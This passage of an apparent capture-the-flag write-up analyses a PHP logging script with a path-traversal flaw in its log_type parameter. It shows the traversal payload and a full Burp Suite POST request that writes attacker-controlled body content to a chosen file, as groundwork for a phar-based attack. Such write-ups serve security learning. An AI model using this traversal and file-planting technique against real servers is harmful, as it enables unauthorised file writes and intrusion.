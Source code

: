 Here `$real_ip` will be our actual local ip address and cannot be spoofed.

Then these lines create a new file (if needed) and add a single line into it:
```
$log_type = @$_GET['log_type'];
...
$gets = http_build_query($_REQUEST);
...
$log = 'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . @$_SERVER['HTTP_X_FORWARDED_FOR'] . '], REQUEST: [' . $gets . '], CONTENT: [' . file_get_contents('php://input') . "]\n";
$log_file = $log_ip_dir . '/' . $log_type . '_www.log';

file_put_contents($log_file, $log, FILE_APPEND);
```

We can set $log_type to whatever we want.  We can be sneaky and set it to something like:

`?log_type=../../test`

This will end up with `$log_file` moving up and out of our `$real_ip` directory and even up and out of the `log` directory and end up creating a file called test_www.log in the same directory as log.php itself.

**Note**: As it turns out, this `../../` trickery wasn't needed to get the flag, but I used it anyway.

How much can we control the content of $log that it adds as content to this file?

Looks like we have some control over the IP, REQUEST, and CONTENT sections of $log.

The CONTENT section is set from yet another PHP protocol called php://.  In this case php://input is a special URL that provides access to the raw request body contents (regardless of the declared Content-Type).

Since we know a phar file has binary content, let's focus on CONTENT and ignore the other areas for now.

Let's play with this using Burp Suite's Repeater functionality.
```
POST /log.php?log_type=..%2F..%2Ftesting123 HTTP/1.1
Host: 43.155.59.185:53340
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 18

How now brown cow!
```


Note: The `%2F` constructs are just encoded `/` characters.

This should've created a file named `esting123_www.log` in the same directory as `index.php`.
